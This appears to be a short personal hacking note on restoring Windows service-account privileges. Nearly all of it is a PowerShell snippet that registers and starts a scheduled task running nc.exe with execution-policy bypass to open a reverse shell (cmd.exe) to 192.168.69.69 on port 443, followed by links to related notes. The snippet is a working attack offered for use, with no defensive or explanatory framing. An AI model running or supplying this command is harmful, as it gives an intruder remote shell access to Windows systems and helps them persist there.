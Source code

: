 # service account privileges restore using scheduled task with powershell
```powershell
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\windows\tasks\nc.exe 192.168.69.69 443 -e cmd.exe`""
Register-ScheduledTask -Action $TaskAction -TaskName "GrantPerm"
Start-ScheduledTask -TaskName "GrantPerm"
```

# References
- [20221003151080](/zet/20221003151080/) service account privileges restore
- [20221003151078](/zet/20221003151078/) service account privileges restore using scheduled task with powershell require seimpersonate privilege for task using principal
- ~/kb/hacking/windows/service-account-privileges.md

Tags:
    #assorted


